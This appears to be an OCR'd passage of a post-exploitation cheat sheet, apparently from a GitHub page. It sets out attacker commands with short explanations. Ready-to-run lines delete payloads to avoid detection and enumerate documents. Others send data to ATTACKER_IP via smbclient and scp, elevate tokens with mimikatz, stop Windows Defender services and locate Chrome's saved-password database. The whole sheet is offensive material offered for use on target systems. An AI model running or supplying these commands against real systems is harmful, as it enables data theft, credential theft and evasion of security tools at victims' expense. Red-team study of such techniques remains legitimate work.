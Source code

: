 
### Remove Uploaded Files

```
rm /path/to/payload
```

Delete uploaded payloads or scripts after execution to avoid detection.

---

### Dump Sensitive Data

```
powershell -Command 'Get-ChildItem -Path C:\ -Recurse -Include *.docx,*.xlsx,*.pdf'
```

Enumerate and collect sensitive documents from target systems.

---

### Exfiltrate Data via SMB

```
smbclient \\ATTACKER_IP\share -U user -c 'put secret_data.zip'
```

Upload collected sensitive data to attacker-controlled SMB share.

---

### Exfiltrate Data via SCP

```
scp /path/to/data.zip user@ATTACKER_IP:/remote/path
```

Securely transfer collected data from the target system to attacker machine.

---

### Token Impersonation

```
mimikatz 'token::elevate' exit
```

Impersonate higher-privileged user tokens for further post-exploitation actions.

---

### Disable Security Tools

```
sc stop WinDefend & sc stop WdNisSvc
```

Temporarily disable Windows security services to avoid detection during post-exploitation.

---

### Extract Passwords from Browsers

```
powershell -Command 'Get-ChildItem $env:APPDATA\..\Local\Google\Chrome\User Data\Default\Login Data'
```

Extract stored credentials from browser databases on the target system.

---
